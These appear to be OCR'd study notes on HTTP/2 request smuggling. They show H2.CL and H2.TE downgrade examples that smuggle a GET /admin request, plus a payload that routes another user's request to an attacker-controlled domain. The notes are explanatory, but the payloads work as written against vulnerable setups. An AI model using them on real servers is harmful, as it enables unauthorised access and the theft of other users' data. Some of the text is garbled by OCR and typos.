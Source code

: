 **Back-End(HTTP/1)**

```
`POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H`

```

**eg. Payload**

```
POST / HTTP/2
Host: vulnerabile.com
Content-Length: 0

POST /admin
Host: Ourdomain.com
Content-Length: 500

x=requestfromother user will send to our dmoains in this param

```

## H2.TE Vulnerabilities

- Chunked transfer encoding is incpmpatible with HTTP/2 and the spec recommends that any **Transfer-encoding: chunked** headerwe try to inject is `Striped` or ENtire request is blocked.
- if front-end server fails to do this & downgrade the request for HTTP/1 back-end that does support chunked encoding, this lead to smuggling attacks

**Front-end(HTTP/1)**

```
:method

POST

:path

/example

:authority

vulnerable-website.com

content-type

application/x-www-form-urlencoded

transfer-encoding

chunked

0 GET /admin HTTP/1.1 Host: vulnerable-website.com Foo: bar

```
